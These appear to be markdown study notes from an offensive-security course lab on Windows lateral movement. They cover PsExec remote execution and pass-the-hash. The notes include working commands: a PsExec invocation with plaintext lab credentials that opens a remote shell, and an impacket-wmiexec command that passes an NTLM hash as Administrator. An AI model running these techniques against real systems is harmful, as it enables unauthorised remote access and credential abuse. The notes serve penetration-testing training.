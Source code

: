 ### PsExec
#psexec 
Provides remote execution of processes
#### Pre-Reqs for Use
- User is a local admin
- ADMIN$ share available (default)
- File and Printer Sharing enabled (default)

#### How it PsExec Works
- Writes **psexesvc.exe** to **C:\Windows** 
- Creates & spawns service on remote host
- Runs program/command as child process of **psexesvc.exe**

##### Scenario Using PsExec on Windows
1. RDP as _offsec_ local admin user to CLIENT74

###### Obtain interactive shell on target system as different user
```hlt:1
PS C:\Tools\SysinternalsSuite> ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd

C:\Windows\system32>hostname
FILES04

C:\Windows\system32>whoami
corp\jen
```

### Pass the Hash 
#passthehash 
Authenticate using NTLM hash

#### Tools
- [_PsExec_](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/) from Metasploit
- [_Passing-the-hash toolkit_](https://github.com/byt3bl33d3r/pth-toolkit)
- [_Impacket_](https://github.com/CoreSecurity/impacket/blob/master/examples/smbclient.py)

#### Pre-Reqs
- User is a local admin
- SMB Port 445 open
- ADMIN$ share available (default)
- File and Printer Sharing enabled (default)

##### Pass the Hash Scenario Using Impacket's wmiexec on Linux
Pass the local admin hash, username, and target IP
```
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
